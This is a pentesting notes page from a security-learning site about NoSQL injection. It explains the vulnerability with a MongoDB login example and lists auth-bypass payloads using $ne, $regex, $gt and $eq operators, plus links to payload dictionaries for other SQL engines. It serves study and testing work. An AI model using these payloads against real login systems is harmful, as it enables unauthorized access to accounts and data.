

repository: amandaguglieri/hackinglife · page: webexploitation/nosql-injection/index.html · generator: mkdocs

---
title: NoSQL injection
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web
  - pentesting
---
#  NoSQL injection

!!! tip "Related resources"
	- [Detailed SQLi Cheat sheet for manual attack](../sqli-manual-attack.md).
	- [SQL injection](sql-injection.md)
	- [NoSQL injection](nosql-injection.md)
	- [SQLite injections](sqlite-injections.md)


[Dictionary for NoSQL injections](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/NoSQL-injections.md).

Examples of NoSQL databases: [redis](../6379-redis.md), [mongo](../mongo.md).

??? example "Languages and dictionaries"
	| Server | Dictionary |
	| -- | -- |
	|  [MySQL](../mysql.md) | [MySQL payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/MySQL%20Injection.md). | 
	| [MSSQL](../mssql.md) | [MSSQL payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/MSSQL%20Injection.md). |
	|  [PostgreSQL](../5432-postgresql.md) | [PostgreSQL payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/PostgreSQL%20injection.md). |
	|  [Oracle](../1521-oracle-transparent-network-substrate.md) | [Oracle SQL payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/Oracle-SQL-injections.md). |
	| [SQLite](sqlite-injections.md) | [SQLite payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/SQLite-injection.md). | 
	| Cassandra | [Cassandra payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/Cassandra%20Injection.md). | 

??? example "Attack-based dictionaries"
    - [Generic SQL Injection Payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/generic-injections)
    - [Generic Error Based Payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/error-based).
    - [Generic Union Select Payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/union-select).
    - [SQL time based payloads ](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/time-based).
    - [SQL Injection Auth Bypass Payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/auth-bypass) 



SQL stands for Structure Query Language. NoSQL Injection is a security vulnerability that occurs in applications that utilize NoSQL databases. It is a type of attack that involves an attacker manipulating a NoSQL database query by injecting malicious input, leading to unauthorized access, data leakage, or unintended operations. In traditional SQL Injection attacks, attackers exploit vulnerabilities by inserting malicious SQL code into input fields that are concatenated with database queries. Similarly, in NoSQL Injection, attackers exploit weaknesses in the application's handling of user-supplied input to manipulate NoSQL database queries.

**How does it work a NoSQL injection?** Explanation: 

```
# MongoDB query
var query = {
username: username,
password: password
};

# Perform query to check if credentials are valid
var result = db.users.findOne(query);

if (result) {
// Login successful
} else {
// Login failed

```

In this example, the application constructs a MongoDB query using user-supplied values for the username and password fields. If an attacker intentionally provides a specially crafted value, they could potentially exploit a NoSQL injection vulnerability. For instance, an attacker might enter the following value as the username parameter:

```
$gt:""
```

The attacker could potentially bypass the login mechanism and gain unauthorized access.

Typical payloads:

```
# Payload
username[$ne]=1$password[$ne]=1
# Use case/Function: Not equals to (Auth Bypass)                |

# Payload
username[$regex]=^adm$password[$ne]=1
# Use case/Function: Checks a regular expression (Auth Bypass)

# Payload
username[$regex]=.{25}&pass[$ne]=1
# Use case/Function: Checks regex to find the length of a value

# Payload
username[$eq]=admin&password[$ne]=1 
# Use case/Function: Equals to.
